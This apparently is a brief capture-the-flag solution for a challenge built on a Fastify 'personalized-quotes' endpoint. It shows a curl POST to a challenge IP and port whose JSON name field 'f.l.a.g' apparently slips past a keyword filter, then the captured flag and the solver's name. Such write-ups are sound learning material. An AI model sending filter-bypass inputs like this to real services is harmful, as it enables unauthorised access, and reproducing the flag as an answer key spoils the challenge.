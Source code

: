 # Solution
```
curl -X POST "http://188.245.212.74:10001/personalized-quotes" \
-H "Content-Type: application/json" \
-d '{"name": "f.l.a.g"}'
```

Flag: `ping{fastify-more-like-slowify-hehe-anMtYW5keQ==}`

Solved by: takeptoto
